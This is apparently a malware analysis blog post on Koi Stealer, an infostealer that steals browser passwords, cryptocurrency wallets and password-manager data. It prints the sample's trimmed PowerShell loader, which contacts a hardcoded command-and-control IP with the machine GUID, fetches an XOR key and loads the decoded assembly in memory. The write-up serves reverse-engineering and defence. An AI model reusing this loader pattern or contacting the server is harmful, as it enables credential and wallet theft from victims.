 +++
title = 'A Deconstruction of Koi Stealer - Malware Analysis'
date = 2024-04-08T15:27:05+01:00
draft = false
tags = [ "malware analysis", "reverse engineering" ]
+++

## Overview

Koi stealer samples began appearing on [any.run](https://any.run) in mid-late february. The samples identified as Koi are mostly Powershell scripts, including the one I analysed.

> Note: Koi stealer should not be confused with AZORult. From what I've identified, they are two distinct families, and not even written in the same language. Koi is written in C# while AZORult 2019 is written in C++.

The stealer performs basic system checks before stealing various data in 3 stages - browser data, including passwords, cryptocurrency wallet and password manager data, some application data, and other files of interest. A full list of sources that the malware steals from is included at the end of this report.

### Details

Details about the main implant:
- Sample source: https://app.any.run/tasks/0c21f3f8-9f51-44ae-9d5e-5a67a29cd9f9/
- Sample type: Intel 80386 (x86) .NET Assembly
- First submission (VT): 2024-03-28 14:47:02 UTC

## Powershell Loader

Below is a trimmed version of the loader script.

```powershell
[byte[]] $binary = 0x0e,
0x1d, 0xa9, 0x47, 0x45, 0x63, 0x55, 0x39, 0x69, 0x75, 0x46, 0x74, 0xc7, 0xad, 0x46, 0x72,
0xd7, 0x6f, 0x48, 0x58, 0x43, 0x47, 0x39, 0x47, 0x06, 0x63, 0x55, 0x39, 0x6d, 0x75, 0x46,
....
0x39, 0x6d, 0x75, 0x46, 0x74, 0x38, 0x52, 0x46, 0x72, 0x6f, 0x6f, 0x48, 0x58, 0x43, 0x47,
0x39, 0x47, 0x46, 0x63, 0x55, 0x39, 0x6d, 0x75, 0x46, 0x74, 0x38, 0x52, 0x46, 0x72, 0x6f,
0x6f, 0x48, 0x58, 0x43, 0x47, 0x39, 0x47, 0x46, 0x63, 0x55, 0x39, 0x6d, 0x75, 0x46, 0x74

# [Net.ServicePointManager]::SecurityProtocol +='tls12'
$guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid
$config = (new-object net.webclient).downloadstring("http://195.123.220.40/index.php?id=$guid&subid=ENmpj9mb").Split('|')
$k = $config[0];

for ($i = 0; $i -lt $binary.Length ; ++$i)
{
	$binary[$i] = $binary[$i] -bxor $k[$i % $k.Length]
}

$sm = [System.Reflection.Assembly]::Load($binary)
$ep = $sm.EntryPoint


$ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3])))
```
